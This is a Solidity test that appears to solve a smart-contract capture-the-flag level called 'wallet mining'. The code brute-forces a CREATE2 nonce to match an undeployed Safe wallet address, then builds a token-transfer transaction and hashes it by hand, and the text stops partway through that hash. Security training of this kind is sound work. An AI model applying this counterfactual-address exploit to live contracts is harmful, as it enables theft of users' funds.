 ```solidity
function test_walletMining() public checkSolvedByPlayer {
    // Step 1: Find the correct nonce using a loop to compute the expected address with CREATE2
    address[] memory _owners = new address[](1);
    _owners[0] = user;
    bytes memory initializer = abi.encodeCall(
        Safe.setup,
        (_owners, 1, address(0), "", address(0), address(0), 0, payable(0))
    );

    uint256 nonce;

    bool flag = false;
    while (!flag) {
        address target = vm.computeCreate2Address(
            keccak256(abi.encodePacked(keccak256(initializer), nonce)),
            keccak256(abi.encodePacked(type(SafeProxy).creationCode, uint256(uint160(address(singletonCopy))))),
            address(proxyFactory)
        );
        if (target == USER_DEPOSIT_ADDRESS) {
            flag = true;
            break;
        }
        nonce++;
    }
    // Step 2: Prepare execTransaction call data
    bytes memory execData;
    {
        // avoid stack too deep
        address to = address(token);
        uint256 value = 0;
        bytes memory data = abi.encodeWithSelector(token.transfer.selector, user, DEPOSIT_TOKEN_AMOUNT);
        Enum.Operation operation = Enum.Operation.Call;
        uint256 safeTxGas = 100000;
        uint256 baseGas = 100000;
        uint256 gasPrice = 0;
        address gasToken = address(0);
        address refundReceiver = address(0);
        uint256 _nonce = 0;
        bytes memory signatures;

        // Step 3: Calculate transaction hash manually since Safe is not yet deployed
        // We cannot call `safe.getTransactionHash` because the Safe contract has not been deployed yet
        // We also can't use `singletonCopy.getTransactionHash` because the domainSeparator depends on the Safe address
        {
            // avoid stack too deep
            bytes32 safeTxHash = keccak256(
                abi.encode(
                    0xbb8310d486368db6bd6f849402fdd73ad53d316b5a4b2644ad6efe0f941286d8, // SAFE_TX_TYPEHASH,
                    to,
                    value,
                    keccak256(data),
                    operation,
                    safeTxGas,
                    baseGas,
                    gasPrice,
                    gasToken,
                    refundReceiver,
                    _nonce
```